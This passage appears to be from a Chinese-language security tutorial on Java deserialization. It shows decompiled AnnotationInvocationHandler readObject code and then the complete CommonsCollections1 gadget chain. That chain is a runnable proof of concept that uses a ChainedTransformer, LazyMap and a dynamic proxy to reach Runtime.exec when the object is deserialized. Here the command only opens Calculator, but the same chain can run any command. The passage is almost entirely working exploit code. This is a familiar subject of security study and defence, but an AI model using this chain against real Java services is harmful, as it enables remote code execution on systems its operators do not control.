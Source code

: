 ``` java
        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }
        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();
        while(var4.hasNext()) {
            Entry var5 = (Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }
    }
}
```

因此，最终的利用链为：

``` java
// CommonsCollections1.java
public class CommonsCollections1 {
    public static void main(String[] args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, NoSuchMethodException, IOException {
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"open /System/Applications/Calculator.app"})
        });

        Map hashMap = new HashMap();
        Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);

        Constructor annotationInvocationHandlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true);

        InvocationHandler map_handler = (InvocationHandler)annotationInvocationHandlerConstructor.newInstance(Override.class, lazyMap);
        Map proxy_map = (Map)Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, map_handler);

        InvocationHandler handler = (InvocationHandler)annotationInvocationHandlerConstructor.newInstance(Override.class, proxy_map);
        
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(handler);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
```